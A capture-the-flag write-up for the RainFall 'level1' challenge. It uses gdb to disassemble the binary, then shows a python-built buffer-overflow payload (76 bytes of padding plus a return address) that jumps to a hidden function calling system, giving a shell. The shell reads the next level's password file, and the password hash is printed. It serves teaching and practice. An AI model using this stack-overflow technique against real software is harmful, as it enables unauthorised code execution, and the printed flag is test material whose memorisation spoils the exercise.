 # level1

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

Go to:
- [The binary](#the-binary): some analysis
- [Buffer overflow](#buffer-overflow): how to solve this level

## The binary

First, execute `level1` and play with it a little:

```console
level1@RainFall:~$ ./level1
ashaiuhsoiahsioahisoaoishoiasioahsoiaoisnaoinsoiansoiansoinaiosnaoinsoihfoahsoinasoidhiuawhdowdgligalugaidgalkgdgdiasgdias
Segmentation fault (core dumped)
```

Putting a lot of crap makes `level1` segfaulting that is to say it is not protected somewhere. Let's check what is
inside this binary `level1`:

```gdb
level1@RainFall:~$ gdb level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

So, we notice several functions such as: `main`, `run`, `gets`, `fwrite` and so on. Let's have a look at `main`:

```gdb
Dump of assembler code for function main:
   0x08048480 <+0>:    push   ebp                      ; Stack frame
   0x08048481 <+1>:    mov    ebp,esp                  ; initialization.
   0x08048483 <+3>:    and    esp,0xfffffff0           ; Stack frame alignment: rounding down to the nearest multiple of 16. 
   0x08048486 <+6>:    sub    esp,0x50                 ; Create the frame of size 0x50 (decimal 80).
   0x08048489 <+9>:    lea    eax,[esp+0x10]           ; The actual buffer starts at esp+0x10 (decimal 16).
   0x0804848d <+13>:   mov    DWORD PTR [esp],eax      ; The pointer to the beginning of the pointer will be the parameter of `<gets>`.
   0x08048490 <+16>:   call   0x8048340 <gets@plt>     ; Calling `<gets>`.
   0x08048495 <+21>:   leave
   0x08048496 <+22>:   ret
End of assembler dump.
```

Well, now we know more about `main`, if you dig into `gets` you will notice that it calls `_IO_getline` - thus a prompt
waiting for you to enter something followed by `return`. But, it is not significant for us here. We notice that function
`run` is never called! To convince yourself, just put a breakpoint onto this function and run. The program run as usual.

So, let's have a look at it:

```gdb
gdb-peda$ disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18                     ; The stack frame is 0x18 (decimal 24) bytes big.
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>       ; That is interesting! It calls `system`.
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
```

Well, well, well. We have a call to `system` which executes code without other any checking. That's our entry point. Now
we are going to use one famous hacker technic: the *buffer overflow*.

## Buffer overflow

In order to do so we are going to use the buffer initialize in `main`. The objectives are clear: thanks to `gets` we can
buffer overflow the `main` function and put afterwards a call to `run` (which starts at `0x08048444`).

To do so, we need to calculate the offset in order to override the `EIP` address. We are going to make it point to `run`
function. Thanks to this [online
tool](http://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) we know that the offset is of
76.

Let's create our string with 76 `A` and the address (the address is inverse because of the endianness):

```console
level1@RainFall:~$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/level1
```

And give it to `level1` executable:

```console
level1@RainFall:~$ cat /tmp/level1 - | ./level1
```

> `$ cat [file] -` means that `cat` open the file then stdin (`-`).

Finally:

```console
level1@RainFall:~$ cat /tmp/test - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
